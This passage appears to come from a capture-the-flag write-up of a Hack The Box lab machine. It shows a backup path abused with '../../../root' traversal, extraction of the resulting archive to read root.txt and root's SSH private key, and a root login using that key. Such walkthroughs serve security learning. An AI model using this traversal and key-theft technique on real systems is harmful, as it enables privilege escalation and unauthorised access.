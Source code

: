 ```bash
/home/app-production/app/../../../root/scripts/backups/
/home/app-production/app/../../../root/scripts/backups/task.json
/home/app-production/app/../../../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/app-production/app/../../../root/scripts/database.db
/home/app-production/app/../../../root/scripts/cleanup2.sh
/home/app-production/app/../../../root/.python_history
/home/app-production/app/../../../root/root.txt
/home/app-production/app/../../../root/.cache/
/home/app-production/app/../../../root/.cache/motd.legal-displayed
/home/app-production/app/../../../root/.ssh/
/home/app-production/app/../../../root/.ssh/id_rsa
/home/app-production/app/../../../root/.ssh/authorized_keys
/home/app-production/app/../../../root/.bash_history
/home/app-production/app/../../../root/.bashrc

```

We simply decompress the backup file to examine its contents:

```bash
martin@code:~/backups$ tar -xvf code_home_app-production_app_.._.._.._root_2025_August.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
```

After extracting the backup, the `root.txt` file is successfully obtained.

![Root flag](../assets/img/posts/2025-08-18-htb-writeup-code/image-12.png)

The backup also includes a `.ssh` folder, so we can log in as root using the `id_rsa` key, either from our machine or directly on the target.

```bash
martin@code:~/backups$ ssh -i root/.ssh/id_rsa root@127.0.0.1
...
root@code:~# whoami
root
root@code:~# 
```
